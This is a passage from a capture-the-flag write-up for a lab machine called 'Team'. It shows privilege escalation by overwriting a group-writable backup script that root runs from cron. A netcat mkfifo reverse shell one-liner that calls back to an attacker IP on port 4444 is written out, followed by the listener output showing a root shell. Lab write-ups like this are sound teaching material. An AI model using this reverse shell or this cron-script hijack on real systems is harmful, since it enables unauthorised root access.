 I look at gyles crontabs and don't see anything. None there for dale either so I'm assuming that root is running the crontab every minute. Looking at those 2 files:

```
gyles@TEAM:/opt/admin_stuff$ ls -al /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
gyles@TEAM:/opt/admin_stuff$ ls -al /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17  2021 /usr/local/sbin/dev_backup.sh
```

We have write permissions to main_backup.sh! Let's see what's in there.

```
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

<br>

## Root

I edit the file and comment out the copy command, and add a netcat mkfifo reverse shell command to connect back to my home system:

```
#!/bin/bash
# cp -r /var/www/team.thm/* /var/backups/www/team.thm/
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.127.197 4444 >/tmp/f
```

I set up a listener on my system and wait:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.209.155] 51936
bash: cannot set terminal process group (5068): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~#
```

And we're root! Looking at the root.txt flag:

`wc -c /root/root.txt`

```
18 /root/root.txt
```

<br>

With that we've completed this CTF!
